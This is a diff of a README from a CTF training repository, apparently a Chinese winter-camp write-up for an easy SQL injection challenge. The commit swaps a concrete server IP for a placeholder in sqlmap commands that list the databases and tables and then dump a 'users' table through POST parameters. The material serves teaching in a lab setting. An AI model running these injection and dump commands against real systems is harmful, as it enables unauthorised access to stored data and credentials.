

Before and after one commit to L1aovo/ROISWinterCamp2023, a Markdown page: week2/very_easy_sql/README.md, the part around the change. Rendered like a GitHub page.

```diff
--- a/week2/very_easy_sql/README.md
+++ b/week2/very_easy_sql/README.md
@@ -87,8 +87,8 @@
 手注的教程告一段落，但我们还可以使用强大的工具sqlmap！鉴于本题传参使用post方式，那么设置好参数就可以一把梭啦。以下是使用sqlmap的命令，不对参数进行说明，遇到暂停需要选择y/n（yes or no）直接回车即可，感兴趣的可以自行尝试
 
 1. 首先可以抓包或者hackbar看一下post的参数，例如用户名：1 密码：1的post参数显示是`username=1&password=1`，这样就够了
-2. 查库名：`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1' --dbs`
-3. 查表名：`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1' --tables -D ez_sql`
-4. 输出全表：`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1' --dump -D ez_sql -T users`
+2. 查库名：`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1' --dbs`
+3. 查表名：`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1' --tables -D ez_sql`
+4. 输出全表：`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1' --dump -D ez_sql -T users`
 
-除了使用url和post，还可以在第一步抓包后将http请求包保存下来，比如保存为“http.txt”，然后将以上命令的`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1'` 替换为 `sqlmap -r http.txt`，是不是命令缩短很多，说不定还有自动寻找其他注入点的神奇功效
+除了使用url和post，还可以在第一步抓包后将http请求包保存下来，比如保存为“http.txt”，然后将以上命令的`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1'` 替换为 `sqlmap -r http.txt`，是不是命令缩短很多，说不定还有自动寻找其他注入点的神奇功效
```
Also changed, not shown: week2/XssTest/README.md (+1 -1 lines).
